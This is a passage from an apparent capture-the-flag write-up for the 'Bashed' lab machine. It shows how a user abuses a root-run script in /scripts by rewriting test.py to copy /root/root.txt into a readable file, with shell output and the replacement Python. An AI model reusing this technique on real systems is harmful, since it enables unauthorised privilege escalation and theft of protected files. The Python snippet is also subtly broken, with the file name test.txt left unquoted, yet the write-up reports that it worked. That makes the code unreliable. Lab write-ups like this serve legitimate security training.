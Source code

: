 ```bash
ll
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 ./
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ../
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Apr  2 05:56 test.txt
```

If we take a closer look at the permissions, we can see that `test.txt` is owned by `root`. This likely means that the `root` user is running `test.py`. Let's edit this file to see if we can just read the flag that way.

```bash
scriptmanager@bashed:/scripts$ vim test.py
The program 'vim' can be found in the following packages:
 * vim
 * vim-gnome
 * vim-tiny
 * vim-athena
 * vim-athena-py2
 * vim-gnome-py2
 * vim-gtk
 * vim-gtk-py2
 * vim-gtk3
 * vim-gtk3-py2
 * vim-nox
 * vim-nox-py2
Ask your administrator to install one of them
scriptmanager@bashed:/scripts$ which nano
/bin/nano
```

No `vim`? How uncultured. Anyways, open `nano` and change the file to be:

```python
with open("/root/root.txt", "r") as f:
        content = f.read()
with open(test.txt, "w+") as f2:
        f2.write(content)
```

And a minute later, we have our root proof.

```bash
scriptmanager@bashed:/scripts$ wc test.txt
 1  1 33 test.txt
```
